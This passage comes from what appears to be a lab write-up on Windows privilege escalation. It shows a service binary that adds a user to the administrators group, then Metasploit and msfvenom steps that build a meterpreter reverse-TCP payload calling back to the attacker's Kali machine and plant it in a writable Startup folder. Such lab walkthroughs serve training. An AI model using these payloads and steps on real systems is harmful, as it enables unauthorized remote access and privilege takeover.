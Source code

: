 Since, just to remember, in the *windows_service.c* file that we compiled to generate the x.exe file we have inserted in the *Run* function the command ```cmd.exe /k net localgroup administrators user /add```, so we expect that our user is added to the local administrators' group and, by checking the localgroup, we confirm the successfully exploit:

![Task6 Execution](/assets/img/posts/windows-privesc/administrator_user.png)



### <span style="color: var(--link-color);">[Task 7] - Privilege Escalation - Startup Applications </span>
In Windows, as in other operating systems, we can configure some applications to run on boot, including their system privilege. So, if we have permission to write the Startup folder, we can execute malicious files automatically after that some user (we hope admin) do the login.

> Detection
> 
> Windows VM
> 
> 1. Open command prompt and type: icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
> 2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.
> 
> Exploitation
> 
> Kali VM
> 
> 1. Open command prompt and type: msfconsole
> 2. In Metasploit (msf > prompt) type: use multi/handler
> 3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
> 4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
> 5. In Metasploit (msf > prompt) type: run
> 6. Open another command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe
> 7. Copy the generated file, x.exe, to the Windows VM.
> 
> Windows VM
> 
> 1. Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.
> 2. Logoff.
> 3. Login with the administrator account credentials.
> 
> Kali VM
> 
> 1. Wait for a session to be created, it may take a few seconds.
> 2. In Meterpreter(meterpreter > prompt) type: getuid
> 3. From the output, notice the user is “User-PC\Admin”
 